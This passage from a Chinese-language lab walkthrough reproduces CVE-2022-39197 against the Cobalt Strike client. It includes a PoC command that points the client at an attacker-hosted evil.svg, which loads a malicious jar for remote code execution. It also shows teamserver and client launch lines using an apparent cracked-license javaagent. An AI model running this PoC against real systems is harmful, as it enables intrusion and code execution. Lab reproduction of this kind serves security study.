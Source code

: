 
6.cs客户端生成网页马

​	win伪装成受害者下载网页马beacon.exe

7.win执行poc py文件，cs客户端看到马上线后查看用户进程时，自己界面被弹出计算器

```
python cve-2022-39197.py beacon.exe http://10.211.55.3:9898/evil.svg
```

![执行poc](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303290005652.png)



<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303281645298.png" alt="目标上线" style="zoom: 25%;" />



这时cs客户端进程名已被污染

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303281646669.png" alt="cs客户端进程名被污染" style="zoom: 25%;" />

​	

​	**当滚动进程列表进行查看当前会话所在进程名时即触发，请求攻击者web服务上的evil.svg文件，而evil.svg文件又继续加载请求恶意文件EvilJar-1.0-jar-with-dependencies.jar，成功执行命令，从而达到RCE**

​	反制者收到cs端请求：

![请求](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303290008049.png)

​	

​	cs端被执行命令：

![被反制](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303290008935.png)



⚠️：

1.弹出计算器需等待一会

2.下线是因为poc 文件里设置等待100s后就会终止

3.马的名字必须与poc里的beacon.exe一样，否则rce失败【当然后续都改为别的名字也可行】

改成任意名字都可以：（py文件里line27）

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202303301338977.png" alt="image-20230330133839485" style="zoom: 33%;" />



### 3.3 进一步反制复现测试

mac本地开启cs服务端、客户端

```
cd /Users/romanc9/software/cs/cobaltstrike4.3
sudo ./teamserver 10.211.55.2 123456
./start.sh

java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M - javaagent:CSAgent.jar=3a4425490f389aeec312bdd758ad2b99 -Duser.language=en -jar cobaltstrike.jar
```
